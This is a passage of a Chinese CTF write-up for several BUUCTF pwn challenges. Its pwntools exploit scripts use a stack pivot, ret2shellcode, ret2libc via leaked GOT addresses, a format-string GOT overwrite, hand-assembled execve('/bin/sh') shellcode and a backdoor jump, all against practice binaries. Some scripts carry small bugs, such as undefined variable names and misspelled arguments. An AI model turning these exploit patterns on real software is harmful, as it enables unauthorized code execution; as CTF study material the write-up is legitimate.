payload2 = p32(sys)+p32(0)+p32(buf+0xc)+b'/bin/sh\x00' #
payload2 = payload2.ljust(0x28,b'a')+p32(buf-4)+p32(leave_ret)
p.send(payload2)
p.interactive()
动态调试分析
- 先看下新栈的地址为什么是
ebp-0x38 
-
这里是寄存器的地址，可以看到我们的字符串输入到了
760处、而ebp指向了798处，相差0x38字节，所以将栈迁移到这里，方便执行我们的输入 -
payload2 = (p32(sys)+p32(0)+p32(buf+0xc)+b'/bin/sh\x00').ljust(0x28,b'a')+p32(buf-4)+p32(leave_ret) -
p32(buf-4):将ebp覆盖为了buf-4,因为每执行一条指令之后eip会自动+4，这里将eip退回去，防止跳过指令 -
p32(leave_ret)：将返回地址覆盖为leave此时的栈结构
buf sys_addr system函数地址 0 返回地址（占位） buf+12 /bin/sh的参数地址 /bin/sh 填充的剩余空间 buf-4 栈迁移后的ebp leave 执行leave_ret
55 [ZJCTF 2019]Login
栈追踪？或许叭
函数是用c++写的，看起来有点令人头大
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/55/pwn'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
ida查看

在第14和16行发现要输入的账号和密码，不过肯定没有这么简单，执行看看
❯ ./pwn
_____ _ ____ _____ _____ _ _
|__ / | |/ ___|_ _| ___| | | ___ __ _(_)_ __
/ /_ | | | | | | |_ | | / _ \ / _` | | '_ \
/ /| |_| | |___ | | | _| | |__| (_) | (_| | | | | |
/____\___/ \____| |_| |_| |_____\___/ \__, |_|_| |_|
|___/
Please enter username: admin
Please enter password: 2jctf_pa5sw0rd
Password accepted: Password accepted:
[1] 4014 segmentation fault ./pwn
寄
看别人的汇编发现在password_checker函数中有一个隐蔽的错误

主可以看到在0x400A54位置处有一个call rax指令，那么我们将rax修改为后门函数的地址就可以了（默认你找到那个后门函数了）

可以在0x400A89位置处发现rax的值由var_18确定，那么去找一下var_18在哪里

有的，兄弟，有的...
从s处（ebp-0x60)开始，到var_18(ebp-0x18),再除去已经输入的密码2jctf_pa5sw0rd\x00(0xe长度),我们需要填充的数据量为0x60 - 0x18 - 0xe = 0x3a
所以exp：
from pwn import *
p = remote('node5.buuoj.cn',25872)
backdoor = 0x400e88
p.sendlineafter(': ','admin')
p.sendlineafter(': ',b'2jctf_pa5sw0rd'+b'\x00'*0x3a+p64(backdoor))
p.interactive()
56 picoctf_2018_shellcode
ret2shellcode
题比较简单，尝试了一下盲打
❯ ./pwn
Enter a string!
aaaaaa
aaaaaa
Thanks! Executing now...
[1] 2462 segmentation fault ./pwn
根据运行情况，猜测是输入相关字符串并当作函数执行，所以直接写入shellcode试试
from pwn import *
p = remote('node5.buuoj.cn',28483)
p.sendline(asm(shellcraft.sh()))
p.interactive()
然后打通了
57 hitcontraining_magicheap
施工中
58 jarviso_level1
本身应该挺简单的，但是远程和本地的输出不一样
本地：
from pwn import *
context.log_level = 'debug'
p = process('./pwn')
p.recvuntil(b':')
buf_addr = int(p.recv(10),16)
log.info(hex(buf_addr))
payload = asm(shellcraft.sh()).ljust(0x87+0x4,b'b')+p32(buf_addr)
p.sendline(payload)
p.interactive()
接受buf的地址，然后ret回buf处执行shellcode
但是远程要先输入再回显，所以只能ret2libc
from pwn import *
from LibcSearcher import *
p=remote('node5.buuoj.cn',29446)
elf=ELF("./pwn")
main_addr=0x80484b7
write_plt=elf.plt['write']
write_got=elf.got['write']
payload=b'a'*(0x88+0x4)+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)
p.send(payload)
write_addr=u32(r.recv(4))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system_addr=libc_base+libc.dump('system')
bin_sh=libc_base+libc.dump('str_bin_sh')
payload =b'a'*(0x88+0x4)+p32(system_addr)+p32(main_addr)+ p32(bin_sh)
p.send(payload)
p.interactive()
59 axb 2019 fmt32
fmt+ret2libc
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
payload = b'a'+p32(printf_got)+b'b'+b'%8$s'
p.sendlineafter(b'me:', payload)
p.recvuntil(b'b')
printf_addr = u32(p.recv(4))
log.info("prinf_addr:"+hex(printf_addr))
libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr - libc.dump('printf')
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'+fmtstr_payload(8,{printf_got:system},wirte_size = 'byte',numbwritten = 0xa)
p.sendline(payload2)
p.sendline('/bin/sh\x00')
p.interactive()
分析
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/59/pwn'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
Stripped: No

在第25行有明显fmt漏洞,经过输入查询发现我们的输入偏移为8（但不完全是）
gdb测试的时候发现第一个字符的输入是存放在了第7个偏移处，所以应该先填充一个字符，防止后来的地址出现问题
在printf_got后面加一个b'b'为了做为recvuntil()的标记，泄露printf地址后就可以libc了
60 cinscn_s_9
shellcode
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/60/pwn'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX unknown - GNU_STACK missing
PIE: No PIE (0x8048000)
Stack: Executable
RWX: Has RWX segments
Stripped: No
Debuginfo: Yes
有RWX段,保护全关，估计shellcode,ida看看
int pwn()
{
char s[24]; // [esp+8h] [ebp-20h] BYREF
puts("\nHey! ^_^");
puts("\nIt's nice to meet you");
puts("\nDo you have anything to tell?");
puts(">");
fflush(stdout);
fgets(s, 50, stdin);
puts("OK bye~");
fflush(stdout);
return 1;
}
void hint()
{
__asm { jmp esp }
}
有一个jmp esp函数，pwn函数里存在溢出点，但总计可以读入0x32字节，不够写shellcraft.sh()，所以要手写
这边梳理一下流程
在栈上写入小shellcode->覆盖返回地址为jmp esp->让esp指向shellcode->主动调用esp
exp:
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux',log_level = 'debug',arch='i386')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
shellcode = '''
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, eax
mov edx, eax
mov al, 0xb
int 0x80
''''
shellcode = asm(shellcode)
payload = shellcode.ljust(0x24,b'\x00')+p32(0x8048554)
payload+=asm('sub esp,0x28;call esp') # 0x24+0x4=0x28
p.sendline(payload)
p.interactive()